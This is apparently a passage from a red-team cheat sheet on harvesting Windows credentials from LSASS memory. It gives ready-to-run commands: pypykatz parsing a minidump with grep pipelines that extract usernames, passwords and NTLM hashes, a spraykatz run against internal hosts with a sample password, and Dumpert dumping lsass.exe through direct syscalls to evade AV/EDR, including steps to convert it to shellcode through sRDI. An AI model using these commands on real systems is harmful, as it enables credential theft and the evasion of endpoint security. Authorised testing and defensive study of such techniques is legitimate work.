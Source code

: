 

### pypykatz

- [https://github.com/skelsec/pypykatz/releases/latest](https://github.com/skelsec/pypykatz/releases/latest)

Parse MiniDump and grep for creds:

```
$ pypykatz lsa minidump lsass.dmp > out.txt

# Dumped with Mimikatz
$ grep -a '* Username : ' out.txt -A2 | grep -a -e Username -e Password -e NTLM | grep -a -v null | xclip -i -sel c

# Dumped with pypykatz
$ grep -a -P '\tusername ' out.txt -A2 | grep -a -e username -e password | grep -a -v None | xclip -i -sel c
$ grep -a -P 'Username: ' out.txt -A4 | grep -a -e Username -e Domain -e NT | grep -a -v None | xclip -i -sel c
```



### spraykatz

* [https://github.com/aas-n/spraykatz](https://github.com/aas-n/spraykatz)

```
$ python3 spraykatz.py -u snovvcrash -p 'Passw0rd!' -t 10.10.13.37,10.10.13.38,10.10.13.39
```



### Dumpert

* [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
* [https://github.com/outflanknl/Dumpert](https://github.com/outflanknl/Dumpert)

Dump lsass.exe using direct syscalls and removing user-land API hooks:

```
Cmd > rundll32.exe .\Outflank-Dumpert-DLL.dll,Dump
```

Using [sRDI](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/) (**s**hellcode **R**eflective **D**LL **I**njection) technique:

1. Compile [*Outflank-Dumpert-DLL.dll*](https://github.com/outflanknl/Dumpert/tree/master/Dumpert-DLL).
2. Convert it to position independent shellcode with [*ConvertToShellcode.py*](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py): `python3 ConvertToShellcode.py Outflank-Dumpert-DLL.dll`.
3. Use a shellcode loader of your choice to dump LSASS.

